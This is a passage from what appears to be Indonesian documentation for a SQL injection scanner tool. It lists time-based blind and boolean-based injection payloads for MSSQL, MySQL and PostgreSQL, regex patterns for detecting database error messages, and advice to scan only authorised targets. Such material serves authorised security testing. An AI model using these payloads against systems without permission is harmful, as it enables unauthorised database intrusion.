 #### Time-based Blind
- `'; WAITFOR DELAY '0:0:5'--` (MSSQL)
- `' OR SLEEP(5)--` (MySQL)
- `' OR pg_sleep(5)--` (PostgreSQL)

#### Boolean-based
- `1' AND 1=1--` (true condition)
- `1' AND 1=2--` (false condition)

## Deteksi Error (Sistem Keamanan)

Scanner mendeteksi error dari berbagai sistem database:

### MySQL
- `SQL syntax.*MySQL`
- `Warning.*mysql_.*`
- `valid MySQL result`

### PostgreSQL
- `PostgreSQL.*ERROR`
- `Warning.*pg_.*`

### Microsoft SQL Server
- `Driver.* SQL.*Server`
- `OLE DB.* SQL Server`

### Oracle
- `Exception.*Oracle`
- `Oracle error`

### SQLite
- `SQLite.*Driver`
- `Warning.*sqlite_.*`

**Di Versi Desktop:** Semua pola ini dapat dilihat dan diedit melalui tab "Payloads" dengan antarmuka futuristik!

## Praktik Terbaik (Protokol Keamanan)

### 1. Pemilihan Target (Reconnaissance)
- Hanya scan target yang Anda miliki atau punya izin untuk diuji
- Mulai dengan environment non-produksi
- Informasikan stakeholder sebelum scanning

### 2. Strategi Scanning (Tactical Approach)
- Mulai dengan parameter GET dasar
- Test form POST secara terpisah
- Gunakan jumlah thread yang sesuai
- Monitor response server
